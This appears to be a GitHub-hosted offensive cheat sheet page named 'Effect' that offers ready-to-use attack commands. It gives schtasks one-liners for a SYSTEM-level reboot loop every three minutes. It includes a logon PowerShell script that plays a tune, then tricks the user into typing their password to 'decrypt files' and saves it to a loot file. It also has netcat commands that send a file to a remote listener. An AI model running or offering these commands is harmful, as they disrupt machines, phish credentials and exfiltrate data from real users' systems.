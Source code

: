 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 
* [Exfil via Netcat](#exfil-via-netcat)

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /tn "Scare" /tr "powershell -c 'C:\scare.ps1'" /sc onlogon /it
schtasks.exe /create /tn "Effect" /tr "shutdown /r /t 000" /ru "SYSTEM" /sc minute /mo 3  
```
```pwsh
# contents of scare.ps1 PowerShell script (plays Imperial March from Star Wars)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
Write-Host "[+] Donovia Rulez!"
Read-Host "[+] Decrypt files with $($env:USERNAME) password" | Out-File -Append C:\Users\Public\loot.txt
Start-Sleep -Seconds 5
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

## Bottom of Page
